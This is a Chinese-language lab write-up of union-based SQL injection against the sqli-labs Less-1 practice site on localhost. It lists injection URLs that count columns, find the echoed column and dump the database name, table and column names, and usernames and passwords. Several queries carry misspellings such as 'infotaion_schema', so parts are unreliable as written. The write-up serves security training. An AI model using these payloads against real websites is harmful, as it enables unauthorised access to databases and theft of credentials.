 使用单引号判断存在sql注入

![](images/F8AEE938496E4D2CBB79E8EB418AAAAEclipboard.png)



# 1.使用union select 或 order by 猜列数

## 1.1 order by

http://127.0.0.1/sql-labs/Less-1/?id=1'order by 3 --+

![](images/CFAEB88FE2F042C8BD1EF01D7AE8198Dclipboard.png)



http://127.0.0.1/sql-labs/Less-1/?id=1'order by 4 --+

![](images/CA7969D0144E4364940BA5F275395ABBclipboard.png)

此处有个小技巧，使用二分查找发会更快。



## 1.2 union select 

http://127.0.0.1/sql-labs/Less-1/?id=1'union select 1,2,3--+

![](images/510BAAF0539E49B18C20FDFF0CFD05FEclipboard.png)



http://127.0.0.1/sql-labs/Less-1/?id=1%27union%20select%201,2,3,4--+

![](images/40977345B7BC478693E3BF9F24246E73clipboard.png)

通过两个连接返回的页面不同，判断该数据表有三列。



# 2. 确定回显列

由于表中每列的数据类型不一定相同，所以需要确定查询的数据回显在那一列。

这里猜测数据表的第一列id为int型，name列和password列为字符型。

我们查询的数据为字符型，所以确定二三列为回显列。

如：

![](images/EFC959EE69C043CE82CBF4C1BE83A4FEclipboard.png)

这里有一个点需要注意，我们需要使union之前的第一个查询报错，才能将我们需要查询的数据显示到原查询所在的位置。



# 3.执行语句报数据库信息。

3.1爆库

http://127.0.0.1/sql-labs/Less-1/?id=-1'union select 1,database(),3--+

![](images/E3773254C390420584DBBC50EE11DB8Fclipboard.png)



3.2爆表

union select 1,group_concat(table_name),3 from infotaion_schema.tables where table_schema='security'--+

![](images/32DB0BF6100B434EBFA51C96AE1369F4clipboard.png)



3.3爆字段

union select 1,group_concat(column_name),3 from infomation_schema.columns where table_name='user'

![](images/EEFFBDCF5539462EBE7250E2A6EA914Aclipboard.png)



3.4爆字段内容

union select 1,username,password from users where id=3 --+

![](images/3B46EA66DA3A478AA069CBB21D82CCF6clipboard.png)

